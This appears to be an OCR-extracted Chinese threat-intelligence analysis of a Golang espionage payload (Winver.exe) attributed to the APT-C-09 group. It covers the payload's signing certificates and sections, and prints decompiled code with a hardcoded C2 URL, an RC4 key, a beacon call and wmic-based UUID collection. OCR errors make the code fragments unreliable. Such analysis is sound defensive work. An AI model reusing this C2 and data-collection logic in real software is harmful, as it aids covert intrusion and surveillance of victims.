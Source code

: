 Winver.exe是一个由 Golang 编译的恶意软件，并且带有数字签名“RUNSWITHSCISSORSLTD”，具体如下图所示。  

![](https://cdn-mineru.openxlab.org.cn/extract/0b0ebabe-0adf-4de2-9d68-5936743e4156/99a1ed3c143e2435dba721daa0bcfd5c619d34f9c49727a43a7986c4afb636b2.jpg)  

需要说明的是，我们捕获的Golang载荷除了上述签名外，还有个别样本签名为“COMPUTINGANDCODINGLIMITED”，其信息如下，该签名疑似被盗取，因此后续要提防此类签名信息的样本。  

![](https://cdn-mineru.openxlab.org.cn/extract/0b0ebabe-0adf-4de2-9d68-5936743e4156/7ec2e86382ff7897d08ef658283f0d42e8ab059630d7e454c77712880ce0ca94.jpg)  
APT-C-09（摩诃草）组织Golang载荷窃密分析  

另外查看Winver.exe文件的节发现存在.symtab段，．Symtab是Linux系统写ELF文件格式的一部分，猜测该样本还有对应的ELF版本。  

<html><body><table><tr><td>Nr</td><td>Virtual ...</td><td>Virtual s...</td><td>RAWD...</td><td>RAW size</td><td>Flags</td><td>Name</td><td>Firstbytes (hex)</td><td>FirstAscii 20hb...</td><td>sect.Stats</td></tr><tr><td>01ep</td><td>00001000</td><td>0027C26E</td><td>00000600</td><td>0027C400</td><td>60000020</td><td>.text</td><td>FF20476F206275696C</td><td>Gobuild ID:8...</td><td></td></tr><tr><td>02</td><td>0027E000</td><td>002854A8</td><td>0027CA00</td><td>00285600</td><td>40000040</td><td>.rdata</td><td>000000017300016901</td><td>CsOi□□F...</td><td></td></tr><tr><td>03</td><td>00504000</td><td>0009B490</td><td>00502000</td><td>0003E800</td><td>C0000040</td><td>.data</td><td>FF20476F206275696C</td><td>Gobuildinf:...</td><td></td></tr><tr><td>04</td><td>005A0000</td><td>0000E5D4</td><td>00540800</td><td>0000E600</td><td>40000040</td><td>.pdata</td><td>80100000D510000000</td><td>口 口 Z@...</td><td></td></tr><tr><td>05</td><td>005AF000</td><td>000000A8</td><td>0054EE00</td><td>00000200</td><td>40000040</td><td>.xdata</td><td>010402050403015000</td><td></td><td></td></tr><tr><td>06 im</td><td>005B0000</td><td>00000516</td><td>0054F000</td><td>00000600</td><td>CO000040</td><td>idata</td><td>A6035B000000000000</td><td>"])</td><td></td></tr><tr><td>07</td><td>005B1000</td><td>0000B526</td><td>0054F600</td><td>0000B600</td><td>42000040</td><td>.reloc</td><td>00F027000401000048</td><td>HPp</td><td></td></tr><tr><td>08</td><td>005BD000</td><td>00000004</td><td>0055AC00</td><td>00000200</td><td>42000000</td><td>.symtab</td><td>040000000000000000</td><td>口</td><td></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr></table></body></html>  

Winver样本执行时先获取C2的硬编码值，接着对RC4的密钥和User-Agent的值进行初始化。  

if（dword_998CA0)  
{v10=runtime_gcWriteBarrier1（qword_943820,v2,v1,v3,v4，v5,v6,v7);\*v8=v10;  
qword_943820=(__int64)&a20060102150405[11204];//https://daily-mashriq.org/goyxdrkhjilchyigflztv  
qword_943838=32LL;  
if （dword_998CA0）  
{v11=runtime_gcWriteBarrier1（qword_943830,v2,v1,v3,v4,v5,v6,v7);\*v8=v11;  
qword_943830=（_int64)"455Td41AB15tvIPAsLeevnMDgXe9IvEu";// RC4密钥  
qword_943848=25LL;  
if （dword_998CA0)  
{v12=runtime_gcWriteBarrier1（qword_943840,v2,v1，v3,v4,v5，v6,v7);\*v8=v12;  
}  
qword_943840=（_int64)"AGCYRNRWWNFZZSWWFWDYDCVDN";//"User-Agent"的值  
main_sendPing（(_int64)"AGCYRNRWwWFZZSWWFWDYDCVDN"，v2,v1，v3，v4，v5，v6，V7,（_int64)v8);  

然后使用wmic命令获取UUID的值，若获取失败，则随机生成。  

v391[0] ="csproduct";   
v391[1] =\*\t';   
v391[2] ="get";   
v391[3]=3LL;   
v391[4]="UUID";   
v391[5]=4LL;   
v12=（exec_Cmd \*）os_exec_Command(（unsigned int)wmic",4,（unsigned int)v391,3,3,a6,a7,a8,a9）;// //C:\\windows\1System32\\wbem\\wmic.exe   
v394=05_exec_ptr_Cmd_Output(v12); //UUID   
if（v394.1.tab)   
{ ptr=v394.0.ptr; len = v394.0.1en; v394.0.1en=qword_943830; v388=（（_int64（golang\*)（unsigned int，_DWORD,_DWORD，_DWORD，_DWORD,int,int，int，int，_int64，_int64， (unsignedint)&v377, qword_943830, qword_943838, V394.1.tab, v394.1.data, v13, v14, v15, v16, v341, v342, V343); v359 = v394.0.1en; v358 = v17; RandomString =main_generateRandomString(9,v394.0.1en,v17,v394.1.tab,v394.1.data,v18,v19,v20,v21,v341);  
